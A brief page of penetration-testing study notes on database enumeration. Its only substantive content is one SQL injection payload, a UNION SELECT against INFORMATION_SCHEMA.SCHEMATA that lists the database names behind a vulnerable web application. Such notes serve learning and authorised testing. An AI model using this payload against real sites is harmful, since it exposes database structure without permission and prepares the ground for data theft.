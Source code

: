 # Database Enumeration





<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Information Schema

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```


